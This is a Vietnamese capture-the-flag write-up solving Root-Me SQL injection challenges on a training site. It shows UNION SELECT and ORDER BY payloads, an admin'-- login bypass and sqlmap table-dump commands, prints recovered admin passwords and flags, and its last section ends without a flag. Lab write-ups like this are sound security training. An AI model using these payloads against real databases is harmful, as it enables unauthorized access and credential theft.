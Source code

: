 
# SQL injection - String
CMS v 0.0.2

http://challenge01.root-me.org/web-serveur/ch19/

**Statement**: Retrieve the administrator password

## Cách làm
### Tìm chức năng dính lỗi SQLi
Sau khi truy cập vào link, ta thấy có các chức năng như trang chủ, đăng nhập, tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/cf62bf7a-4325-4994-b71b-156e05f23b2f)

Để biết lỗi SQLi xảy ra ở chức năng nào thì ta chỉ cần nhập ký tự `1'` và lỗi SQLi xuất hiện tại ô tìm kiếm

![image](https://github.com/aQ05/Write-up/assets/121664384/85d78798-2c99-4f34-8e7a-e058ec73c2c8)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh `1’ order by 1--` và đến `1' order by 3--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/37d2dd10-8e0d-48cd-b20b-4f44b58d6530)

Tức là CSDL này có 2 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Với SQLite3 (https://www.sqlite.org/faq.html), ta sẽ `SELECT` đến `SQLITE_SCHEMA`

![image](https://github.com/aQ05/Write-up/assets/121664384/7c379380-5410-4360-a210-8ae1eacafb85)

Gõ lệnh `1' union select name,sql from sqlite_master--`, ta sẽ biết được CSDL này có 2 bảng là `news` và `users` với lần lượt là tên cột, kiểu dữ liệu.

![image](https://github.com/aQ05/Write-up/assets/121664384/df32cc27-1c25-403a-9444-fa297dadad2f)

`news (CREATE TABLE news(id INTEGER, title TEXT, description TEXT))`

`users (CREATE TABLE users(username TEXT, password TEXT, Year INTEGER))`

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  `1' union select username, password from users --`, ta sẽ tìm được password của admin: `admin (c4K04dtIaJsuWdi)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c1ae054f-3d4b-4b73-ad7c-8784c82412cd)

Và đăng nhập thành công
![image](https://github.com/aQ05/Write-up/assets/121664384/fd7edfcd-7f0e-47d7-9a70-4b19e9e56cd0)

## Flag
`c4K04dtIaJsuWdi`

# SQL injection - Authentication
Authentication v 0.01

**Statement:** Retrieve the administrator password

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch9/, ta thấy 1 trang web có chức năng đăng nhập.

Để đăng nhập, nhập `admin'-- ` vào trường `username` với mật khẩu tùy ý.

![image](https://github.com/aQ05/Write-up/assets/121664384/b9d97aa9-71bc-4f07-bbc3-fc8be27c67e9)


Để tìm passwprd, `Ctrl U` để xem source code
![Screenshot 2023-11-05 132759](https://github.com/aQ05/Write-up/assets/121664384/3d6556f8-c513-46af-a414-7babe327713b)


## Flag
`t0_W34k!$`

# SQL injection - Numeric
CMS v 0.0.1

**Statement:** Retrieve the administrator password.
## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch18/ 

![image](https://github.com/aQ05/Write-up/assets/121664384/969b2c02-4a25-4fc4-99ec-8c052788be0f)

Thêm ký tự `'` vào cuối url để tìm lỗi. Trang `Système de news` xuất hiện lỗi và ta sẽ khai thác trực tiếp trên url.

![image](https://github.com/aQ05/Write-up/assets/121664384/32929941-ecae-4b37-9598-4406d6a98148)

CSDL được sử dụng ở đây là SQLite3 nên ta sẽ khai thác trên SQLite3.
### Tìm số cột
Đầu tiên sử dụng lệnh `ORDER BY` để kiểm tra số cột cho phép.

Nhập lệnh ` order by 1--` vào cuối url và đến ` order by 4--` thì bị lỗi.

![image](https://github.com/aQ05/Write-up/assets/121664384/09be6067-6a96-4e3e-bd13-daf75ef9acf5)

Tức là CSDL này có 3 cột. Dùng lệnh `UNION SELCT` để khai thác dữ liệu.
### Exploit
Nhập lệnh ` union select 1,2,3--` 

![image](https://github.com/aQ05/Write-up/assets/121664384/6ffaccf9-ac92-4545-9926-affc9108ec7e)

Như vậy ta có thể khai thác tại cột thứ 2 và 3. Lấy tên bảng bằng cách dùng câu lệnh ` union select 1,2,sql from sqlite_master--`, ta thu được 2 bảng:

![image](https://github.com/aQ05/Write-up/assets/121664384/2af7f0ba-1ec4-4e75-9da1-4fa9efc7ca5d)

Đề bài yêu cầu tìm password admin nên ta cần truy xuất dữ liệu từ bảng `users`. Thực thi câu lệnh  ` union select 1,username, password from users --`, ta sẽ tìm được password của admin: `aTlkJYLjcbLmue3`.

![Screenshot 2023-11-05 144912](https://github.com/aQ05/Write-up/assets/121664384/e795ce1e-224c-43f5-bbdb-c4f59d1de201)


## Flag
`aTlkJYLjcbLmue3`




# SQL injection - Error
Exploiting SQL error

**Statement:** Retrieve administrator’s password.

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch34/ thấy có xuất hiện 2 page `Authentication` và `Contents`. 

![image](https://github.com/aQ05/Write-up/assets/121664384/94565777-0f2c-482d-9605-e62b350cdd4a)

Truy cập vào từng trang và nhập `'` ở cuối url thì trang `Contents` xuất hiện lỗi

![image](https://github.com/aQ05/Write-up/assets/121664384/461a61c0-68eb-4b0f-8c74-3b78b78d2e8d)

Sử dụng sqlmap khai thác với url ta sử dụng `-u`. Gõ lệnh `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs` (`-dbs` là để lấy dữ liệu database).

![Screenshot 2023-11-05 204442](https://github.com/aQ05/Write-up/assets/121664384/9997414a-9c0c-482a-9b7d-391390dd453e)

Có 3 database trả về, tuy nhiên ta chỉ cần chú ý đến database `public` và thực hiện lấy các tables trên db này.
Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables`

(`-D public` là để lấy kết quả trong database public).

![Screenshot 2023-11-05 204559](https://github.com/aQ05/Write-up/assets/121664384/b1aa43ab-37e9-4fe4-9c57-728854912f59)

Ta có 1 bảng là `m3mbr35t4bl3`. Thực hiện lấy data trong bảng. Gõ lệnh: `sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump`
(`T` là bảng cần lấy dữ liệu, `--dump` để lấy toàn bộ dữ liệu).

![Screenshot 2023-11-05 204707](https://github.com/aQ05/Write-up/assets/121664384/6f2714ff-2dca-4b0a-bd3f-f4fd33b7d4f8)

## Flag
`1a2BdKT5DIx3qxQN3UaC`

# SQL injection - Blind
Authentication v 0.02

**Statement:** Retrieve the administrator password.

## Cách làm
Truy cập link http://challenge01.root-me.org/web-serveur/ch10/. Giao diện hiện ra chức năng đăng nhập. Thử payload với username `admin’-- ` và password tùy ý. Tuy nhiên website không trả về bất kỳ thông tin về password nào cả.

![image](https://github.com/aQ05/Write-up/assets/121664384/40b751f2-59f2-4cd7-8793-daba5f376695)

Mở burpsuite thử thay đổi payload bằng cách sử dụng `union select`. Dùng lệnh `username=admin%27+union+select+password+from+users+where+username='admin'--+-&password=1` và trang web phản hồi lại có dòng chữ `Injection detected !` 

![Screenshot 2023-11-07 130854](https://github.com/aQ05/Write-up/assets/121664384/899591bb-e45b-4b48-8506-312b18da0309)



## Flag



